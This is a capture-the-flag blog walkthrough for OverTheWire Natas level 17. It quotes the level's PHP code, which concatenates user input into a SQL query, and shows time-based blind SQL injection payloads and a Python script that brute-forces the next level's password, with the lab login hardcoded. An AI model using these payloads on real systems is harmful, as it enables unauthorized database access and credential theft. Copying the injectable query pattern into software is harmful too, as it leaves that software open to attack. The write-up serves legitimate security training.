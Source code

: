 ```yaml
---
title: "Overthewire Natas 17 Walkthrough"
layout: post
date: 2018-05-3 21:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 17
---
```


## Challenge

![Markdown Image](/assets/images/natas_17_solution/challenge_page.png)

{% highlight php %}
<? 
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

The goal of this challenge is to exploit a blind SQL injection vulnerability in order the to read the 'password' column for the username natas18, so we obtain the password for the next level. 


## Solution


Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.

{% highlight raw %}
natas18" and sleep(5)#
{% endhighlight %}


Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen. 

{% highlight raw %}
natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
{% endhighlight %}


Now we can automate all of this proccess of getting natas18 password using the following python script.

{% highlight python %}
#!/usr/bin/python
#h15h4m


import requests
from requests.auth import HTTPBasicAuth


http_username = "natas17"
http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
target =  "http://natas17.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth(http_username, http_password)
chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
password_chars_found = ''
password = ''
r = requests.get(target, auth=http_login)

if  r.status_code != requests.codes.ok:
    print "[-] Check Authentication"
    exit()


print "[!] We are in"



#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #

for i in chars_to_check:
    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
    try:
        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
    except:
        print "[+] Timeout: Char Found " + i
        password_chars_found += i

print '[!] Found Chars ' + password_chars_found

#md5 32 chars
for i in range(32):
    for ii in password_chars_found:
        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
        try:
            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
        except:
            print "[+] Timeout: Char Found " + ii
            password += ii
            break


print '[!] PASSWORD = ' + password

#print r.content
{% endhighlight %}



![Markdown Image](/assets/images/natas_17_solution/final_result.png)


